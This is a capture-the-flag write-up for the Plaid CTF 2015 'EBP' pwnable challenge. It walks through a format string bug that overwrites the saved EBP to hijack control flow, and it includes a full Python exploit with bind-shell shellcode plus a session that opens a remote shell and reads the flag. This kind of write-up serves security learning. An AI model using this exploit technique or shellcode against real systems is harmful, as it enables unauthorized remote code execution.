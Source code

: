 # Plaid CTF 2015: Strength

**Category:** EBP
**Points:** 160
**Description:** 

>Pwnable (160 pts)
>nc 52.6.64.173 4545 
>
>Download: [%p%o%o%p](challenge/ebp.elf).

## Write-up

We start by first checking the binary:

>```bash
>$ file ebp
>ebp: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf994804ecd68699809b56d85dbba1038de9f74b0, not stripped
>```

A stripped 32-bit ELF binary. Let's see what checksec has to say:

>```bash
>gdb-peda$ checksec
>CANARY    : disabled
>FORTIFY   : disabled
>NX        : disabled
>PIE       : disabled
>RELRO     : Partial
>```

Ok, no protections to worry about. Let's load EBP into IDA and decompile it:

>```c
>int __cdecl main(int argc, const char **argv, const char **envp)
>{
>  int result; // eax@3
>
>  while ( 1 )
>  {
>    result = (int)fgets(buf, 1024, stdin);
>    if ( !result )
>      break;
>    echo();
>  }
>  return result;
>}
>
>int echo()
>{
>  make_response();
>  puts(response);
>  return fflush(stdout);
>}
>
>int make_response()
>{
>  return snprintf(response, 0x400u, buf);
>}
>```

We can spot a very straight-forward format string bug in make_response (where we control the format specifier in buf). Let's first try to dump the stack with it:

>%x.%x.%x.%x.%x.
>b76147a0.b7754ff4.0.bfa14cb8.804852c

Given that buf is a variable stored in the .bss section, no matter how far into the stack we dig, we won't encounter our own buffer so we won't get the usual write-anything/anywhere situation. But if we look at our stack dump we can see that the 5th DWORD on the stack is the return address from the call to make_response, indicating the 4th DWORD is the old EBP value. If we can overwrite the old EBP value we know that at the function epilogue handling it will do the following:

>```asm
>leave
>retn
>```

Which allows us to effectively:

>```asm
>mov eip, [old_ebp+4]
>```

So let's say we want to overwrite old EBP with 0x41414141:

>(364931861*2+364931860 + 3) = 0x41414141

We craft the following format string:

>%364931861x.%364931861x.%364931860x.%n

So if we can point old_ebp to 4 bytes before an address holding the address we want to overwrite eip with we hijack control flow. Given that our buf is located in the static .bss section at 0x0804A080 we can overwrite old_ebp with (0x0804A080-4) = 0x0804A07C and use the following string:

>AAAA%44840317x%44840317x%44840318x%n

To overwrite EIP with 0x41414141. Now for the final part we need to put our shellcode in our buffer and overwrite EIP with the address of our shellcode:

>eip_overwrite = (0x0804A080 + n)
>where n is the length of the FMS exploit (36 bytes)
>so eip_overwrite = 0x0804A0A4
>fms exploit: \xA4\xA0\x04\x08%44840317x%44840317x%44840318x%n<shellcode>

Note that we will need to keep our original socket open in order to prevent xinetd (which is running the challenge) from killing the exploited process.

The following dirty [little exploit](solution/ebp_sploit.py) will do the trick:

>```python
>#!/usr/bin/python
>#
># Plaid CTF 2015
># EBP (PWN/160)
>#
># @a: Smoke Leet Everyday
># @u: https://github.com/smokeleeteveryday
>#
>
>from pwn import *
>
>#
># Linux bindshell port 4444
>#
>buf =  ""
>buf += "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66"
>buf += "\xcd\x80\x5b\x5e\x52\x68\x02\x00\x11\x5c\x6a\x10\x51"
>buf += "\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04"
>buf += "\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f"
>buf += "\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f"
>buf += "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
>
>host = '52.6.64.173'
>#host = '127.0.0.1'
>port = 4545
>
>h = remote(host, port, timeout = None)
>
>print "[*]Sending exploit..."
>exploit = "\xA4\xA0\x04\x08%44840317x%44840317x%44840318x%n" + buf
>h.send(exploit + "\n")
>print "[+]Exploit sent!"
>msg = h.recv(1024)
>print msg
>
>h.close()
>```

Running it gives us:

>```bash
>$ python ebp_sploit.py
+] Opening connection to 52.6.64.173 on port 4545: Done
[*]Sending exploit...
> $ nc 52.6.64.173 4444
> id
> uid=1001(problem) gid=1001(problem) groups=1001(problem)
> ls /home/problem
> ebp
> flag.txt
> cat /home/problem/flag.txt
> who_needs_stack_control_anyway?
>```